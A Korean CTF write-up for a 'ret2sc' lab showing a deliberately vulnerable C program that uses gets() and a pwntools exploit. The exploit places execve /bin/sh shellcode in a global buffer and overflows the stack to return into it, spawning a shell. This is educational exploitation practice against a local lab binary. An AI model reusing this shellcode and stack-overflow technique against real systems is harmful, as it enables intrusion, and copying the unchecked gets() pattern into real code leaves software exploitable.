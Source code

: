 lab3
====
`ret2sc.c`에서 다음과 같은 코드를 볼 수 있었다.
```
#include <stdio.h>

char name[50];

int main(){
	setvbuf(stdout,0,2,0);
	printf("Name:");
	read(0,name,50);
	char buf[20];
	printf("Try your best:");
	gets(buf);
	return ;
}
```
먼저 `Name`을 입력 받은 후 `buf`값을 입력받는데 `Name`을 입력 받을 때에는 길이 검사를 하며 `buf`를 입력받을 때에는 길이검사가 없다.   
따라서 `buf`를 입력받을 때 bof를 시켜 `Name`주소로 ret시키고 `Name`에는 쉘코드를 넣어주면 해결 할 수 있을 것이다.

알아낸 `Name`의 주소는 `0x804a060`이였으며, 다음과 같이 코드를 작성하였다.
```
from pwn import*

p = process('./ret2sc')

name = 0x804a060

pl1 = ''
pl1 += '\x90'*10
pl1 += '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69'
pl1 += '\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'

pl2 = ''
pl2 += 'a'*32
pl2 += p32(name)

p.recvuntil(":")
p.send(pl1)
p.recvuntil(':')
p.send(pl2)

p.interactive()
```
![](https://postfiles.pstatic.net/MjAxOTA4MDJfMjU1/MDAxNTY0NzMyODEyMDU5.rR_beKFFZDCcs3ZtbJKSpinGAm-5MOtGaDMdLP_goHkg.dqOs30R6BxI3My2RL07mlbCF7j-0d78n_9f9OOSKoj0g.PNG.rlaeoghks823/%EC%8A%A4%ED%81%AC%EB%A6%B0%EC%83%B7,_2019-07-30_00-15-30.png?type=w773) 
